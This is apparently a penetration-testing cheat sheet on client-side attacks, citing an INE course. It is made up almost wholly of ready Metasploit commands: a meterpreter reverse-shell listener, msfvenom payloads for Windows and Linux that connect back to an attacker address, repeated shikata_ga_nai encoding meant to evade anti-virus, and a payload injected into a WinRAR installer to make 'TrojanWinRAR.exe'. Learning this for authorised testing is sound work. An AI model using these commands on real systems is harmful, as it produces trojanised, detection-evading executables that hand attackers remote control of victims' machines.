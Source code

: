 # Client-Side Attacks

* [msfconsole listener](#msfconsole-listener)
* [Generating Payloads With Msfvenom](#generating-payloads-with-msfvenom)
* [Encoding Payloads With Msfvenom](#encoding-payloads-with-msfvenom)
* [Injecting Payloads Into Windows Portable Executables](#injecting-payloads-into-windows-portable-executables)
* [Automation](#automation)
* [References](#references)

***********************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
***********************************************************************

* Client-Side attacks require human interaction and does not take advantage of services on the target system.
* Be mindful of anti-virus on client system.

## msfconsole listener

```
use multi/handler
```
```
set payload [PAYLOAD]
```
Windows x86 Example:
```
set payload windows/meterpreter/reverse_tcp
```
```
show options
```
```
set LHOST [ATTACK-IP]
```
```
set LPORT [PORT]
```
```
run
```
* Now execute payload on client system to get a meterpreter shell 

***********************************************************************

## Generating Payloads With Msfvenom

* Msfvenom is a combination of msfpayload and msfencode.
* Msfvenom is used to generate malicious meterpreter payload that can be transfered to target system and connects back to attacker.  

List payloads:
```
msfvenom --list payloads
```

List outfile formats:
```
msfvenom --list formats
```

### Windows

Staged payload example:
```
windows/x64/meterpreter/reverse_http
```
Un-staged payload example:
```
windows/x64/meterpreter_reverse_http
```

64 bit architecture example: 
```
windows/x64/meterpreter/reverse_http
```

```
windows/meterpreter/reverse_http
```

Generate payload examples:
```
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=[ATTACK-IP] LPORT=[PORT] -f exe > [OUTFILE]
```
```
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=[ATTACK-IP] LPORT=[PORT] -f exe > [OUTFILE]
```
* ensure file extension is specified in the [OUTFILE]
* -f is the format, and you can use other extensions that are not .exe depending on the use-case.

### Linux

32 bit (x86) architecture example:
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[ATTACK-IP] LPORT=[PORT] -f elf > [OUTFILE]
```
64 bit architecture example:
```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=[ATTACK-IP] LPORT=[PORT] -f elf > [OUTFILE]
```

***********************************************************************

## Encoding Payloads With Msfvenom

List encoders:
```
msfvenom --list encoders
```

### Windows

Encode payload examples:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ATTACK-IP] LPORT=[PORT] -e [ENCODER] -f exe > [OUTFILE]
```
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=1234 -e x86/shikata_ga_nai -f exe > Desktop/encoded_payload.exe
```
* Note the number of iterations for the encoder in the terminal output after running the command:
   * "Attempting to encode payload with 1 iterations of x86/shikata_ga_nai"
   * You can encode a payload multiple times, the more encoding iterations of the payload, the greater the chance you have to bypass anti-virus detection. 
   * use "-i [#]" after "LPORT" to set the amount of iterations:
   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ATTACK-IP] LPORT=[PORT] -i [#] -e [ENCODER] -f exe > [OUTFILE]
   ```
   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=1234 -i 10 -e x86/shikata_ga_nai -f exe > Desktop/encoded_payload.exe
   ```
   * Suggest not going over 10 iterations because of the law of diminishing returns.

### Linux

Encode payload examples:
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[ATTACK-IP] LPORT=[PORT] -i [#] -e [ENCODER] -f elf > [OUTFILE]
```
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=1234 -i 10 -e x86/shikata_ga_nai -f elf > Desktop/encoded_payload
```

* Now transfer encoded payload to target machine, start a meterpreter listener, and execute the payload from the target machine.

***********************************************************************

## Injecting Payloads Into Windows Portable Executables

* Not all executables are able to have payloads injected into them.
* WinRAR is a good executable to inject payload into.

Examples:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ATTACK-IP] LPORT=[PORT] -e [ENCODER] -f exe -x [EXE-TO-INJECT] > [OUTFILE]
```
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=1234 -e x86/shikata_ga_nai -f exe -x ~/Downloads/wrar602.exe > Desktop/TrojanWinRAR.exe
```
* Now transfer encoded payload to target machine, start a meterpreter listener, and execute the payload from the target machine.

The -k option maintains the original functionality of the executable, however it's not always reliable, much testing needs to be done to get this to work:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ATTACK-IP] LPORT=[PORT] -e [ENCODER] -f exe -k -x [EXE-TO-INJECT] > [OUTFILE]
```

You can migrate into a new process by entering:
```
run post/windows/manage/migrate
```

***********************************************************************

## Automation

Set up a resource script (.rc):
* Put commands in a .rc file in sequential order

From outside msfconsole:
```
msfconsole -r [SCRIPT.rc]
```

From inside msfconsoel:
```
resource [PATH-TO-.rc-FILE]
```

Make a .rc from last commands used in msfconsole:
```
makerc [OUTFILE]
```

***********************************************************************

### References
Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2